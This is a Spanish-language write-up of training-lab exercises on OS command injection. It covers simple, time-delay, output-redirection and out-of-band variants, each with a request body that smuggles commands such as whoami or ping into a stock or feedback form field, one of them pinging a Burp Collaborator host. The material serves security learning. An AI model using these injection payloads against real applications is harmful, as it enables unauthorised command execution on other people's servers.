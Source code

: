 # OS command injection


# OS command injection, simple case

El caso mas simple en donde se consulta el stock se le agrega el | y el comando

```
productId=1&storeId=1|whoami

```

# Blind OS command injection with time delays

En este caso se inyectan comandos en Submmit feedback se usa de nueva cuenta el pipe |

```
csrf=fTYXLcrD0AxoStj3Bo0z58nhjs22Oep5&name=Masa&email=masa%40gmail.com||ping+-c+10+127.0.0.1||&subject=abcd1234&message=Comment
```

# Blind OS command injection with output redirection

Para este laboratorio no se refleja el comanod inyectado en el email de submitt feedback sin embargo se puede redireccionar a una carpeta con 
permisos de escritura /var/wwww/images( desde donde se cargan las imagenes) si damos clic derecho en una imagen y le ponemos cargar en una pestaña
nos da image?filename=image.jpg entonces si se cargan de esa ruta podriamos hacer algo como image?filename=out.txt.

```
csrf=Kfbe6pN4ThGKonJGCUZmmSS2tzjh6CF0&name=Masa&email=masa%40gmail.com|whoami>out4.txt||&subject=abcd1234&message=Comment

```
NO olvides que si no agregas los 2 || al final no se porque pero no sirve.

# Blind OS command injection with out-of-band interaction

Para este laboratorio se utilizo el Burp colaborator Client de nueva cuenta la vulnerabilidad reside en el Submit feedback y cuando se genera un 
 DNS lookup to Burp Collaborator es cuando se resuelve el lab

```
csrf=ItkBikPD69urSsgTDkHVZmvP8g1NiQj8&name=Masa&email=masa%40gmail.com|ping woojq6yqontbtnxg748e0indw42wql.oastify.com||&subject=abcd1234&message=Comment
```
















